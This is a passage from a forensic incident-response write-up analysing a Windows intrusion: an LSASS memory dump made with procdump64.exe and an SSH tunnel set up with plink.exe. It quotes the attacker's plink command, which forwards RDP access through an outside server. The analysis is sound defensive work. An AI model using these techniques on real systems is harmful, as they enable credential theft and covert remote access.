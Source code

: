   - **Prefetch Files:**
    The execution of `procdump64.exe` was confirmed by Prefetch files, indicating that the tool was run on `17/08/2019` at `6:00:34 AM`. This corroborates the timeline established from the command history.

  - **USN Journal Entries and Other Artifacts:**
    USN Journal entries confirm the creation of `procdump64.exe` at `5:59:54 AM`, followed by actions suggesting the creation and subsequent access of `lsass.zip`, a file likely containing the compressed memory dump (`lsass.dmp`).

  - **Impact:**
    - **Credential Theft:**
      The `lsass.dmp` file likely contained plaintext passwords, NTLM hashes, and Kerberos tickets, enabling the attacker to impersonate users and access additional systems within the network.
    - **Further Compromise:**
      With these credentials, the attacker could perform lateral movement, escalate privileges, or exfiltrate additional data.

- **Investigation Outcome:**
  - Despite analyzing network traffic using Wireshark and searching for potential exfiltration activity, no conclusive evidence was found that `lsass.dmp` was transmitted over the network. This absence of data exfiltration evidence suggests that either the exfiltration did not occur via standard network channels or alternative methods were used that were not captured during the investigation.

---

#### **2. Remote Access and Potential Data Exfiltration via `plink.exe`**

The attacker used `plink.exe`, a command-line tool from the PuTTY suite, to establish an SSH tunnel that forwarded traffic from a local port to a remote IP address. This setup enabled the attacker to create a secure and encrypted communication channel, potentially for exfiltrating data or maintaining remote access to the compromised system.

- **Evidence:**
  - **Execution Context:**
    The `plink.exe` tool was executed from `\Windows\Temp\`, with command-line arguments that set up an SSH tunnel, forwarding traffic from `127.0.0.1:12345` to `10.2.0.2:3389` via the remote server `69.50.64.20` on port `22`.

    ```plaintext
    plink.exe -ssh 69.50.64.20 -P 22 -L 127.0.0.1:12345:10.2.0.2:3389
    ```

  - **Memory Analysis:**
    Memory artifacts showed that `plink.exe` had loaded several critical DLLs, including `ntdll.dll`, `kernel32.dll`, and `crypt32.dll`, indicating that it was actively engaged in system-level operations and potentially managing encrypted communications.

  - **Connection to `scvhost.exe`:**
    The role of `scvhost.exe` in supporting the SSH tunnel established by `plink.exe` is crucial. The short-lived process likely assisted in initializing or maintaining the tunnel, ensuring that the connection remained secure and undetected. This connection highlights the sophisticated nature of the attack, where multiple tools and processes were orchestrated to achieve a single malicious goal.
